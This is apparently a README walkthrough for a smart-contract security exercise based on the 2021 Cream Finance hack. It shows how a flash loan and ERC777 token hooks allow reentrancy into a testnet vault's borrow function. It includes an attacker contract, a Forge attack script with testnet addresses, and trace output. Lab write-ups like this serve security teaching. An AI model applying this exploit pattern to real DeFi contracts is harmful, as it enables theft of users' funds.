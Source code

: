 # CREAM FINANCE - REKT
Based on the 2021 Cream Finance hack from the [Rekt Leaderboard](https://rekt.news/leaderboard/). 

## Overview

The contract [`SharkVault.sol`](contracts/SharkVault.sol) allow users to take loans. Here is a brief overview:
- depositGold() and withdrawGold() are used to deposit and withdraw GOLD as collateral.
- For every 100 GOLD deposited, users can borrow up to 75 SEAGOLD.

But it has a vulnerability. The goal is to exploit it with a flash loan following [EIP-3156](https://eips.ethereum.org/EIPS/eip-3156).

The contract `GoldLender` is implementing [IERC3156FlashLender.sol](contracts/interfaces/IERC3156FlashLender.sol).

## Deployments (Sepolia)
| Contract        | Address      |
| ------|-----|
| SharkVault  	| [0xCB944635f55Ab4310fb5F74671a2fE2792C0B098](https://sepolia.etherscan.io/address/0xCB944635f55Ab4310fb5F74671a2fE2792C0B098)	| 
| GoldLender    | [0xfCb668c2108782AC6B0916032BD2aF5a1563E65D](https://sepolia.etherscan.io/address/0xfCb668c2108782AC6B0916032BD2aF5a1563E65D)	| 

## Walkthrough
After deployment, `SharkVault.sol` has 3000 SEAGOLD and `GoldLender` only has 1000 GOLD available.

Notice that the borrow function is not following the Checks Effects Interactions pattern, meaning that it might be vulnerable to reentrancy.
```solidity
function borrow(uint256 _amount) external {
    LoanAccount memory borrowerAccount = updatedAccount(msg.sender);
    borrowerAccount.borrowedSeagold += _amount;

    // Fail if insufficient remaining balance of $SEAGOLD
    uint256 seagoldBalance = seagold.balanceOf(address(this));
    require(_amount <= seagoldBalance, "Insufficient $SEAGOLD to lend");

    // Fail if borrower has insufficient gold collateral
    require(_hasEnoughCollateral(borrowerAccount), "Undercollateralized $SEAGOLD loan");

    // Transfer $SEAGOLD and update records
    seagold.transfer(msg.sender, _amount);
    accounts[msg.sender] = borrowerAccount;
}
```

The `seagold.transfer(msg.sender, _amount)` call is exploitable if seagold is implementing another standard than ERC20. Let's verify that.

First, create a `FlashAttacker.sol` contract implementing `IERC3156FlashBorrower`:
```solidity
contract FlashAttacker is IERC3156FlashBorrower {
    enum Action {NORMAL, OTHER}

    IERC3156FlashLender lender;
    SharkVault sharkVault;

    constructor (
        IERC3156FlashLender lender_,
        SharkVault sharkVault_
    ) {
        lender = lender_;
        sharkVault = sharkVault_;
    }

    /// @dev ERC-3156 Flash loan callback
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external override returns(bytes32) {
        require(
            msg.sender == address(lender),
            "FlashBorrower: Untrusted lender"
        );
        require(
            initiator == address(this),
            "FlashBorrower: Untrusted loan initiator"
        );
        (Action action) = abi.decode(data, (Action));
        if (action == Action.NORMAL) {
            IERC20(token).approve(address(sharkVault), 3000*1e18);
            sharkVault.depositGold(1000*1e18);
            sharkVault.borrow(750*1e18);
        } else if (action == Action.OTHER) {
        }
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    /// @dev Initiate a flash loan
    function flashBorrow(
        address token,
        uint256 amount
    ) public {
        bytes memory data = abi.encode(Action.NORMAL);
        uint256 _allowance = IERC20(token).allowance(address(this), address(lender));
        uint256 _fee = lender.flashFee(token, amount);
        uint256 _repayment = amount + _fee;
        IERC20(token).approve(address(lender), _allowance + _repayment);
        lender.flashLoan(this, token, amount, data);
    }
}
```

And run this script `forge script scripts/LaunchAttack.s.sol --rpc-url sepolia`:
```solidity
contract LaunchAttackScript is Script {
    uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
    SharkVault sharkVault = SharkVault(0xCB944635f55Ab4310fb5F74671a2fE2792C0B098);
    IERC3156FlashLender goldLender = IERC3156FlashLender(0xfCb668c2108782AC6B0916032BD2aF5a1563E65D);

    function run() public returns (FlashAttacker flashAttacker) {
        vm.startBroadcast(deployerPrivateKey);
        IERC20 gold = sharkVault.gold();
        IERC20 seagold = sharkVault.seagold();

        flashAttacker = new FlashAttacker(goldLender, sharkVault);

        flashAttacker.flashBorrow(address(gold), 1000*1e18);

        vm.stopBroadcast();
    }
}
```

It returns:
```
  [24689] LaunchAttackScript::run()
    ├─ [0] VM::startBroadcast(29868473663892743784059904813300419623398721198734088061575205807316455675558 [2.986e76])
    │   └─ ← ()
    ├─ [644] 0xCB944635f55Ab4310fb5F74671a2fE2792C0B098::gold() [staticcall]
    │   └─ ← 0x41a23DBF52be3060Fa0910d6AA0F9f2D463E387c
    ├─ [579] 0xCB944635f55Ab4310fb5F74671a2fE2792C0B098::seagold() [staticcall]
    │   └─ ← 0x8fd03562Ffa407d478F481be4498A4dccdc4e03f
    ├─ [9989] 0x8fd03562Ffa407d478F481be4498A4dccdc4e03f::transfer(0xCB944635f55Ab4310fb5F74671a2fE2792C0B098, 3000)
    │   ├─ [2942] 0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24::getInterfaceImplementer(0x26d403E1E1A1239d8b6f5907dE272CF311104753, 0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895) [staticcall]
    │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000000
    │   └─ ← revert: ERC777: transfer amount exceeds balance
```

So SEAGOLD is in fact an ERC777 token. This means we can modify `FlashAttacker.sol` to use the hook feature in order to do a reentrant call on borrow, see the implementation [`FlashAttacker.sol`](contracts/FlashAttacker.sol).

Executing the `LaunchAttack.s.sol` script again effectively withdraw the all the SEAGOLD from the contract, and send back the GOLD to the `GoldLender`, see the transaction details on [etherscan](https://sepolia.etherscan.io/tx/0x6ca1d37c248f88f0b31f6c73beb1d2dffae518aa11d050ca3135faa9d593b039).